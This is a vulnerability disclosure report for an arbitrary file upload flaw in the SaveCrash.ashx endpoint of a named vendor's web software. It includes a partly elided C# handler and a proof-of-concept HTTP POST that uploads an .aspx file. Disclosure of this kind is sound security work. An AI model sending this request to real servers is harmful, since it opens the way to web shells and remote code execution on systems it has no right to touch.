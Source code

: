 ![image-20250225200841561](./image-20250225200841561.png)

# Vulnerability Report

## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in SaveCrash.ashx

### Summary:
The `SaveCrash.ashx` endpoint on the vendor's website `http://www.zzskzy.com/` is vulnerable to arbitrary file upload, allowing an attacker to upload and execute malicious files on the server.

### Affected Endpoint:
`SaveCrash.ashx`

### Vulnerability Type:
Arbitrary File Upload Vulnerability leading to Remote Code Execution (RCE)

### Vulnerable Code:
```c#
public class SaveCrash : IHttpHandler
{
    public void ProcessRequest(HttpContext context)
    {
        JsonStr jsonResult = new JsonStr();
        string message = "";
        bool sucess = UploadCrash(context, ref message);    // Arbitrary File Upload
        if (sucess)
            jsonResult.Msg_code = ReturnCode.pass;
        else
            jsonResult.Msg_code = ReturnCode.null_result;

        jsonResult.Msg_info = message;
        context.Response.Write(jsonResult.GetJonStr());
    }

    protected bool UploadCrash(HttpContext context, ref string message)
    {
        try
        {
            // File upload logic
            // Vulnerable code allowing any file type to be uploaded
        }
        catch (Exception ex)
        {
            message = "文件上传错误";
            Log.Debug("crash/SaveCrash接口异常", ex.Message);
            return false;
        }
    }
}
```

### Proof of Concept (PoC):
```
POST /SaveCrash.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
This vulnerability allows an attacker to upload and execute arbitrary files on the server, potentially leading to Remote Code Execution (RCE). An attacker could upload malicious scripts, such as web shells, to take control of the server, steal data, or disrupt the system's functionality.

### Recommendation:
1. Validate file types and extensions on the server-side to restrict uploads to safe formats.
2. Implement file size restrictions to prevent the upload of large files.
3. Sanitize user inputs and encode output to prevent code injection attacks.
4. Regularly monitor server logs for suspicious activities and file uploads.

### Conclusion:
The `SaveCrash.ashx` endpoint on the vendor's website `http://www.zzskzy.com/` contains a critical vulnerability that allows for arbitrary file uploads, posing a significant risk of remote code execution. It is imperative that the vendor addresses this issue promptly to secure their system and protect user data.

### References:
- OWASP File Upload Security Risks: https://owasp.org/www-community/vulnerabilities/File_upload_vulnerabilities

